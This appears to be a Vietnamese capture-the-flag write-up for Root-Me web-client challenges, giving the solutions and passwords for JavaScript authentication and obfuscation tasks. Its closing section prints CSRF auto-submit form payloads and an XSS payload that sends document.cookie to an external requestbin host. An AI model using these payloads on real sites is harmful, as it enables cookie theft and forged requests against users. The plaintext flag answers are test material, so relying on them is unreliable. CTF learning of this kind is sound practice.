 ### Javascript - Authentication:https:http://challenge01.root-me.org/web-client/ch9/
password:`sh.org`

đầu tiên chúng ta coi source của nó: gợi ý của nó là `Javascript - Authentication` 

<img src="http://image.prntscr.com/image/4ee663b4801d4572a4419bd89e1deb92.png">

sau khi vào đoan js : ta thấy luôn password

<img src="http://image.prntscr.com/image/1689c5870fec47948f3e067b7a302f20.png">

### Javascript - Source: http://challenge01.root-me.org/web-client/ch1/ch1.html

password: `123456azerty`
câu này thuộc dạng khoai : chỉ cần coi source là có tất cả: 

<img src="http://image.prntscr.com/image/b7ad883e944644a2a961ec2de73d8083.png">

### Javascript - Authentication 2 :http://challenge01.root-me.org/web-client/ch11/
password:`HIDDEN`

câu này vào thẳng vấn đề, vào đoạn js như câu 2:
<img src="http://image.prntscr.com/image/395c50ed82aa4afd88cf7c525daada4e.png">
nhìn vào đoạn js , ta thấy password là phần tử thứ 2 của biến thelists!

###  Javascript - Obfuscation 1: http://challenge01.root-me.org/web-client/ch4/ch4.html:

password:`cpasbiendurpassword`

câu này có tăng level lên chút :v như mấy cái trước đầu tiên phải coi source của nó , 
<img src="http://image.prntscr.com/image/da801b784ee445b6a5e32f11334bf0c0.png">

- Thoạt nhìn tưởng chuối vì chữ pass to đung đập vào mắt :))! **nhưng sai** pass là 1 biến để truyền vào lệnh `unescape`.Được cái không học js nên chả biết cái lệnh quái quỉ này, sợt gu gồ liền , vào web `w3school` .Lệnh này có chức năng Mã hóa và giải mã một chuỗi !Vào phần ví dụ của lệnh này , thay phần biến str_esc bằng phần pass trong source và nhấn run : có ngay pass :D

<img src="http://image.prntscr.com/image/551b1f0aab004a2f8c562cc4a5623635.png"> 

###Javascript - Obfuscation 2:http://challenge01.root-me.org/web-client/ch12/ch12.html
password:`hDufjdki156` 
- chú ý phần gợi ý và phần source: gợi ý là : Going down 3 floors..... đi 3 tầng :)) , nhìn vào source thấy đoạn pass! có 3 hàm lồng nhau ! chính nó đấy, chỉ cần giải đoạn đó là có pass!

giải đoạn đầu tiên, hàm `unescape` y chang bài trên , coppy rồi pass vào coi nó ra cái gì

<img src="http://image.prntscr.com/image/bb9c274a2f064338a7118d7f104e8f72.png">

cái hàm `String.fromCharCode` cái này mới , hỏi bác gu gồ thôi :

`String.fromCharCode` : fromCharCode(): chuyễn mã Unicode thành ký tự

ví dụ:

document.write(String.fromCharCode(72,69,76,76,79) );//HELLO

ở bài này , chỉ cần thay vào là ra pass thôi :D! 

<img src="http://image.prntscr.com/image/fd226593f9c345f183bf3ec77361f3ab.png">

#csrf

```
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">

<label>Username:</label>
		
		<input type="hidden" name="username" value="b">
	
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input type="hidden" name="status" value="on" >




</from>

<script>document.forms["csrf"].submit()</script>// auto submit


```
----------------
```


<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="a"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="token1" name="token" value=""/>
 
</form>

<script>

var loginForm = document.forms.profile; // Or document.forms['login']
  
 
    oko=document.forms['profile']["token"].value;// set oke= value token
      

document.getElementById("token1").value = oko; // set id['token1']=oko
document.forms["profile"].submit(); //auto submit form
</script>

```

--------------- xss
```
abc.com/hello.php//
"><script language= "JavaScript">
document.location="https://requestb.in/1fwk51x1?cookie=" + document.cookie;</script>
```
có thể thay trang chứa steal cookie =request.in

